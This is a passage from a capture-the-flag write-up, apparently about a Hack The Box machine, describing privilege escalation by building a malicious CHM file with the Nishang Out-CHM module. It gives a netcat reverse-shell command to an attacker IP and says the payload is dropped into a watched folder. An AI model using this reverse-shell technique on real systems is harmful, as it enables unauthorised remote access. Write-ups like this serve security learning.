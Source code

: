 The offensive Powershell framework [Nishang](https://github.com/samratashok/nishang) can help with this! It contains a module called [Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) for generating malicious CHM payloads. I couldn't run this script in Kali or on the target because it requires the HTML Help Workshop binary (hhc.exe), which isn't on either. I jumped across to a Windows VM to set it up and used a basic payload - it's a "Powershell script" that just sends me a new netcat reverse shell using the binary I've already transferred across.
  - I Download and install the HTML Help Workshop from https://www.microsoft.com/en-au/download/details.aspx?id=21138
  - shell.ps1 simply contained: `C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.5 4444 -e cmd.exe`
  
![Image](/assets/img/sniper/sniper_privesc_nishang.png)

Now that I have my malicious .chm file, I just need to transfer it to **C:\Docs** with my .ps1 payload and wait to catch a shell...

![Image](/assets/img/sniper/sniper_privesc_shell.png)

And That's it! Thanks for reading :) As always, if you'd like to give feedback please email me at <apr4h.ctf@gmail.com>.
